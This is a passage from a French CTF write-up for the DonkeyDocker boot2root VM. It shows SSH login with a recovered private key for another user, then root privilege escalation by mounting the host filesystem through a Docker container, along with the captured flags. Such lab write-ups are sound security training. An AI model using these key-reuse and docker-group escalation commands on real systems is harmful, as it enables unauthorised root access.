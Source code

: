 Comme la clé privée de *smith* est présente je tente de l'utiliser avec le compte *orwell* sur le serveur SSH vu au début.  

```plain
$ ssh   -i smith.key orwell@192.168.101.132 
Welcome to 

   ___                     _                       ___                   _ 
 |     \ ___ _ _ | |_____ _   _|     \ ___   __| |_____ _ _ 
 | |) / _ \ ' \| / / -_) || | |) / _ \/ _| / / -_) '_| 
 |___/\___/_||_|_\_\___|\_, |___/\___/\__|_\_\___|_| 
                                               |__/ 
                                                         Made with <3 v.1.0 - 2017 

This is my first boot2root - CTF VM. I hope you enjoy it. 
if you run into any issue you can find me on Twitter: @dhn_ 
or feel free to write me a mail to: 

 - Email: dhn@zer0-day.pw 
 - GPG key: 0x2641123C 
 - GPG fingerprint: 4E3444A11BB780F84B58E8ABA8DD99472641123C 

Level:             I think the level of this boot2root challange 
                         is hard or intermediate. 

Try harder!: If you are confused or frustrated don't forget 
                         that enumeration is the key! 

Thanks:           Special thanks to @1nternaut for the awesome 
                         CTF VM name! 

Feedback:       This is my first boot2root - CTF VM, please 
                         give me feedback on how to improve! 

Looking forward to the write-ups! 

donkeydocker:~$ cat flag.txt   
You tried harder! Good work ;-) 

Here a flag for your effort: flag01{e20523853d6733721071c2a4e95c9c60}
```

Boys on the docks
-----------------

L'utilisateur fait partie du groupe Docker. Est-ce que j'ai besoin d'en dire d'avantage ?   

```plain
donkeydocker:~$ docker images 
REPOSITORY                   TAG                                 IMAGE ID                       CREATED                         SIZE 
donkeydocker               latest                           ae644a321321               4 years ago                 276 MB 
debian                           jessie                           8cedef9d7368               4 years ago                 123 MB

donkeydocker:~$ docker run -v /:/mnt/host -it 8cedef9d7368 /bin/bash
donkeydocker:~# cd /mnt/host/root
donkeydocker:~# cat flag.txt   
YES!! You did it :-). Congratulations! 

I hope you enjoyed this CTF VM. 

Drop me a line on twitter @dhn_, or via email dhn@zer0-day.pw 

Here is your flag: flag2{60d14feef575bacf5fd8eb06ec7cd8e7}
```
